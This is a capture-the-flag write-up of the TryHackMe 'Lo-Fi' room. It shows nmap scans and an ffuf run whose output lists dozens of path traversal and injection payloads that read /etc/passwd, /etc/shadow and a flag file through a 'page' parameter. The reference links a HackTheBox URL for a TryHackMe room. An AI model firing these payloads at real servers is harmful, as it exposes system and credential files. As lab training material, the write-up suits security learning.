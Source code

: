 ```yaml
---
date: 2025-01-25
difficulty: easy
draft: "false"
os: linux
parent: "[[tryhackme-index|TryHackMe Index]]"
skills: nmap, lfi, path traversal
tags: [tryhackme, writeup]
title: Lo-Fi Write-Up
---
```


# Lo-Fi Write-Up

![Lo-Fi Overview](./overview.png)

This machine is aimed to understand the basics of the local file intrusion (LFI) and path traversal vulnerabilities.

<!-- truncate -->

## Recon

### nmap

In this part of the scan, you don't need to use nmap because in the room is telling you that you can access the ip on the browser but I like to see what ports are open on the target:

```bash
nmap -p- --open --min-rate=5000 -Pn -T4 -oN nmap/open_ports 10.10.97.145
Starting Nmap 7.95 ( https://nmap.org ) at 2025-01-25 23:54 CET
Nmap scan report for 10.10.97.145 (10.10.97.145)
Host is up (0.048s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 12.35 seconds
```

```bash
nmap -p 22,80 -sV -sC -oN nmap/services_version 10.10.97.145
Starting Nmap 7.95 ( https://nmap.org ) at 2025-01-25 23:56 CET
Nmap scan report for 10.10.97.145 (10.10.97.145)
Host is up (0.047s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 3b:fe:8d:25:44:81:09:18:87:45:5e:38:9c:eb:49:d1 (RSA)
|   256 ee:16:f1:ea:bd:3a:36:6f:ce:c4:9c:40:2f:42:f9:5e (ECDSA)
|_  256 c7:2c:10:af:72:f3:29:4a:3e:12:1f:66:1b:73:6b:a7 (ED25519)
80/tcp open  http    Apache httpd 2.2.22 ((Ubuntu))
|_http-title: Lo-Fi Music
|_http-server-header: Apache/2.2.22 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.61 seconds
```

### Website by IP - TCP 80

It is a very simple website to listen to lofi music by embedding youtube videos.

![Website Overview](./images/website-overview.png)

If I click on the discography links, there is a parameter called `page` that displays a different php file with the embedded youtube video.

![Website Page Param Relax Page](./images/website-page-param-relax-page.png)

### LFI Fuzz

Using `ffuf` to search the posible paths in the server to see if there are interesting files.

```
$ ffuf -w /usr/share/wordlists/Fuzzing/LFI/LFI-Jhaddix.txt -u "http://10.10.97.145?page=FUZZ" -fl 124 -o ffuf/lfi-paths

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.0.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.97.145?page=FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/Fuzzing/LFI/LFI-Jhaddix.txt
 :: Output file      : ffuf/lfi-paths
 :: File format      : json
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
 :: Filter           : Response lines: 124
________________________________________________

%0a/bin/cat%20/etc/passwd [Status: 200, Size: 3987, Words: 1368, Lines: 125, Duration: 53ms]
..%2F..%2F..%2F%2F..%2F..%2Fetc/passwd [Status: 200, Size: 4638, Words: 1363, Lines: 143, Duration: 54ms]
../../../../../../../../../../../../etc/hosts [Status: 200, Size: 4051, Words: 1360, Lines: 131, Duration: 48ms]
../../../../../../../../../../../../etc/hosts%00 [Status: 200, Size: 4051, Words: 1360, Lines: 131, Duration: 48ms]
../../../../../../../../../../../../../../../../../../../../../../etc/passwd [Status: 200, Size: 4638, Words: 1363, Lines: 143, Duration: 48ms]
../../../../../../../../../../../../../../../../../../../../../etc/passwd [Status: 200, Size: 4638, Words: 1363, Lines: 143, Duration: 48ms]
../../../../../../../../../../../../../../../../../../../etc/passwd [Status: 200, Size: 4638, Words: 1363, Lines: 143, Duration: 48ms]
../../../../../../../../../../../../../../../../../../../../etc/passwd [Status: 200, Size: 4638, Words: 1363, Lines: 143, Duration: 49ms]
../../../../../../../../../../../../../../../../../etc/passwd [Status: 200, Size: 4638, Words: 1363, Lines: 143, Duration: 48ms]
../../../../../../../../../../../../../../../../../../etc/passwd [Status: 200, Size: 4638, Words: 1363, Lines: 143, Duration: 49ms]
../../../../../../../../../../../../../../../../etc/passwd [Status: 200, Size: 4638, Words: 1363, Lines: 143, Duration: 49ms]
../../../../../../../../../../../../../../../etc/passwd [Status: 200, Size: 4638, Words: 1363, Lines: 143, Duration: 49ms]
../../../../../../../../../../../../../../etc/passwd [Status: 200, Size: 4638, Words: 1363, Lines: 143, Duration: 50ms]
../../../../../../../../../../../../../etc/passwd [Status: 200, Size: 4638, Words: 1363, Lines: 143, Duration: 50ms]
../../../../../../../../../../../etc/passwd [Status: 200, Size: 4638, Words: 1363, Lines: 143, Duration: 49ms]
../../../../../../../../../../../../etc/passwd [Status: 200, Size: 4638, Words: 1363, Lines: 143, Duration: 49ms]
../../../../../../../../../../etc/passwd [Status: 200, Size: 4638, Words: 1363, Lines: 143, Duration: 50ms]
../../../../../../../../../etc/passwd [Status: 200, Size: 4638, Words: 1363, Lines: 143, Duration: 48ms]
../../../../../../../../etc/passwd [Status: 200, Size: 4638, Words: 1363, Lines: 143, Duration: 49ms]
../../../../../../../etc/passwd [Status: 200, Size: 4638, Words: 1363, Lines: 143, Duration: 48ms]
../../../../../../etc/passwd [Status: 200, Size: 4638, Words: 1363, Lines: 143, Duration: 48ms]
../../../../../etc/passwd [Status: 200, Size: 4638, Words: 1363, Lines: 143, Duration: 48ms]
../../../../etc/passwd  [Status: 200, Size: 4638, Words: 1363, Lines: 143, Duration: 48ms]
../../../etc/passwd     [Status: 200, Size: 4638, Words: 1363, Lines: 143, Duration: 49ms]
../../../../../../../../../../../../../../../../../../../../../../etc/passwd%00 [Status: 200, Size: 4638, Words: 1363, Lines: 143, Duration: 48ms]
../../../../../../../../../../../../../../../../../../../../etc/passwd%00 [Status: 200, Size: 4638, Words: 1363, Lines: 143, Duration: 48ms]
../../../../../../../../../../../../../../../../../../../../../etc/passwd%00 [Status: 200, Size: 4638, Words: 1363, Lines: 143, Duration: 49ms]
../../../../../../../../../../../../../../../../../../../etc/passwd%00 [Status: 200, Size: 4638, Words: 1363, Lines: 143, Duration: 48ms]
../../../../../../../../../../../../../../../../../../etc/passwd%00 [Status: 200, Size: 4638, Words: 1363, Lines: 143, Duration: 48ms]
../../../../../../../../../../../../../../../../../etc/passwd%00 [Status: 200, Size: 4638, Words: 1363, Lines: 143, Duration: 48ms]
../../../../../../../../../../../../../../../etc/passwd%00 [Status: 200, Size: 4638, Words: 1363, Lines: 143, Duration: 48ms]
../../../../../../../../../../../../../../../../etc/passwd%00 [Status: 200, Size: 4638, Words: 1363, Lines: 143, Duration: 48ms]
../../../../../../../../../../../../../etc/passwd%00 [Status: 200, Size: 4638, Words: 1363, Lines: 143, Duration: 49ms]
../../../../../../../../../../../../../../etc/passwd%00 [Status: 200, Size: 4638, Words: 1363, Lines: 143, Duration: 49ms]
../../../../../../../../../../../../etc/passwd%00 [Status: 200, Size: 4638, Words: 1363, Lines: 143, Duration: 51ms]
../../../../../../../../../../../etc/passwd%00 [Status: 200, Size: 4638, Words: 1363, Lines: 143, Duration: 51ms]
../../../../../../../../../../etc/passwd%00 [Status: 200, Size: 4638, Words: 1363, Lines: 143, Duration: 50ms]
../../../../../../../../../etc/passwd%00 [Status: 200, Size: 4638, Words: 1363, Lines: 143, Duration: 49ms]
../../../../../../../../etc/passwd%00 [Status: 200, Size: 4638, Words: 1363, Lines: 143, Duration: 48ms]
../../../../../../../etc/passwd%00 [Status: 200, Size: 4638, Words: 1363, Lines: 143, Duration: 48ms]
../../../../../../etc/passwd%00 [Status: 200, Size: 4638, Words: 1363, Lines: 143, Duration: 49ms]
../../../../../etc/passwd%00 [Status: 200, Size: 4638, Words: 1363, Lines: 143, Duration: 49ms]
../../../../etc/passwd%00 [Status: 200, Size: 4638, Words: 1363, Lines: 143, Duration: 48ms]
../../../etc/passwd%00  [Status: 200, Size: 4638, Words: 1363, Lines: 143, Duration: 48ms]
../../../../../../etc/passwd&=%3C%3C%3C%3C [Status: 200, Size: 4638, Words: 1363, Lines: 143, Duration: 48ms]
..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd [Status: 200, Size: 4638, Words: 1363, Lines: 143, Duration: 1765ms]
%0a/bin/cat%20/etc/shadow [Status: 200, Size: 3987, Words: 1368, Lines: 125, Duration: 2728ms]
:: Progress: [929/929] :: Job [1/1] :: 78 req/sec :: Duration: [0:00:05] :: Errors: 0 ::
```

## Root Flag

There are two interesting paths:

- `../../../etc/passwd`
- `../../../../../../../../../../../../etc/hosts`

Typing `../../../etc/passwd` as value in the `page` parameter I can see the content of the file, so this means that I can access the server content in the file system because it is not properly sanitized.

![etc passd file path](./images/etc-passwd-file-path.png)

As in the room gives is saying that the flag is in the root directory (`/`), I only need to modify from `../../../etc/passwd` to `../../../flag.txt` to get the content.

![Root Flag](./images/root-flag.png)

And the machine is pwned! ;)

## References

- cmnatic. (2025, January 17). <span class="reference-title">Lo-Fi</span>. *THM Challenges*. [https://app.hackthebox.com/machines/613](https://app.hackthebox.com/machines/613)
